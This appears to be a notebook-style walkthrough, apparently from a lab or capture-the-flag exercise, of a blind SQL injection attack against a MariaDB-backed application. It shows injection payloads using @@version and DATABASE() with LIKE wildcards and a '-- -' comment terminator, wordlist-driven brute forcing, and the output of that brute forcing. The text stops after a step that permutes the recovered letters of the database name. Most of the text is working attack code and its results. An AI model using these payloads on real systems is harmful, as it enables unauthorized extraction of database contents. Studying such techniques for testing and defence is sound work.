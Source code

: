 ### 1. Information of the Database

We're going to find out which database we're dealing with: Mysql, PostgreSQL, Oracle, MariaDB, etc. To do this, we'll create a list of the most commonly used SQL databases. 
Let's use the **@@version** or **version()** variable to find this DB info.


```python
paramID = "' or LOWER(@@version) LIKE '%"
shorlist = "wordlist/infoDB.txt"

info_DB = send_request_with_wordlist(shorlist, paramID, "%' -- -")
info_DB
```
```

    [FOUND] =  db
    [FOUND] =  maria
    [FOUND] =  mariadb

    ['db', 'maria', 'mariadb']
```


We now know that this is a mariaDB.

### 2. Name of the database

#### 2.1 First, let's find the letters that make up the database being queried


```python
alphabet = "wordlist/alphabet_num.txt"
sql_start = "' or DATABASE() LIKE  '%"
sql_end = "%' -- -"
letters_in_db_name = []
letters_in_db_name = send_request_with_wordlist(alphabet, sql_start, sql_end)


print("Characters used in the database name : ", "".join(str(i) for i in letters_in_db_name))
```

    [FOUND] =  a
    [FOUND] =  d
    [FOUND] =  v
    [FOUND] =  w
    Characters used in the database name:  advw


#### 2.2 Let's find the permutations of these letters

```python
from itertools import permutations

chaine = "".join(str(i) for i in letters_in_db_name)
# Fonction pour trouver les permutations d'une chaîne de caractères
def find_permutations(chaine):
    resultat = permutations(chaine)
    permutations_list = [''.join(perm) for perm in resultat]
    return permutations_list

permutations_chaine = find_permutations(chaine)
print(permutations_chaine)
```
